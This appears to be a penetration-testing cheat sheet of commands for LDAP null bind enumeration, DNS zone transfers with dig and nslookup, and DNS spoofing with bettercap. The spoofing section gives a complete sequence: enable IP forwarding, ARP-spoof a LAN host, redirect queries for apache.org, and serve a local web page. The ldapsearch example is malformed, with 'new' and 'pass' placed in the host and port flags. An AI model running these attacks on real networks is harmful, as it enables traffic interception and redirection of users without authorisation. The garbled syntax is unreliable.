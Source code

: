 LDAP & DNS
==========

### LDAP Null Bind Enumeration


# Syntax
ldapsearch -h "new" -p "pass" -x -b "ou=Group,DC=dc2,DC=xxx" -v

### DNS Zone Transfer


# Zone transfer using dig
dig @<ns> -p 54011 AXFR <host>


# Zone transfer using nslookup
nslookup -type=any
> set port <port>
> server <ns>   
> <host>

### DNS Spoofing


# Using bettercap
# In a local network, you can DNS queries using ARP spoofing

# Activate router mode on attacker machine
echo 1 > /proc/sys/net/ipv4/ip_forward

# Show machines in the LAN
> net.show

# Set target for ARP spoofing
> set arp.spoof.targets 192.168.5.99

# Launch attack
> arp.spoof on

# Set domain to spoof, spoof.all allow to also consider external requests and not only local ones
> set dns.spoof.domains apache.org
> set dns.spoof.all true
> dns.spoof on

# You can then create a local web server
> set http.server.path /var/www/html
> http.server on
